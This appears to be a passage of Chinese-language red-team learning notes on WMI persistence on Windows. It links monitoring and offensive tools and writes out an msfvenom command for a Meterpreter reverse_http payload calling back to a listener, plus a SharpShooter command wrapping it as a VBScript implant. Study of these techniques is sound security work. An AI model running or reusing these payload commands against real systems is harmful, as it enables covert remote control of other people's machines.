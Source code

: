 

## 0x08 学习脚本 

### Monitor WMI Persistence

相关

    [WMIMonitor](https://github.com/realparisi/WMI_Monitor/blob/master/WMIMonitor.ps1)

    [fireeye - wmi_vs_wmi_monitor](https://www.fireeye.com/blog/threat-research/2016/08/wmi_vs_wmi_monitor.html)

Application Event log - EventID 8

.INSTRUCTIONS

    1) Execute the script from an Administrative PowerShell console "Import-Module ./WMIMonitor.ps1"
    The functions "New-EventSubscriberMonitor" and "Remove-SubscriberMonitor" will now be loaded into your system's PowerShell instance
    2) Type "New-EventSubscriberMonitor" to invoke the function and start recording WMI process creations and Consumers
    3) Type "Remove-SubscriberMonitor" to remove the WMI subscriber created and discontinue logging the events
    4) In a new PowerShell window, test a process call create function "wmic process call create "notepad.exe"" and check the Application Event Log to ensure the script is logging


    [WMImplant](https://github.com/ChrisTruncer/WMImplant/blob/master/WMImplant.ps1)
    [WMI-Persistence.ps1]()
    [PowerSploit - Persistence](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Persistence/Persistence.psm1)


### WMIPersistence - C#

[mdsecactivebreach - WMIPersist.cs](https://github.com/mdsecactivebreach/WMIPersistence/blob/master/WMIPersist.cs)
[mdsecactivebreach - SharpShooter.py](https://github.com/mdsecactivebreach/SharpShooter)

先使用msfvenom生成shellcode_raw.txt

    ./msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=192.168.1.221 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f raw -o shellcode_raw.txt

本示例执行的是 VBScript,使用SharpShooter生成 VBScript 类型的 payload。

    python SharpShooter.py --stageless --dotnetver 2 --payload vbs --output implantvbs --rawscfile shellcode_raw.txt

1. CSharp 调用 VBScript 脚本payload (没试成功)

2. CSharp 调用 wmi技术执行命令

    [CSharp 中 __EventFilter 类的一些属性](https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/--eventfilter)
    [CSharp 中 CommandLineEventConsumer 类的一些属性](https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/commandlineeventconsumer)
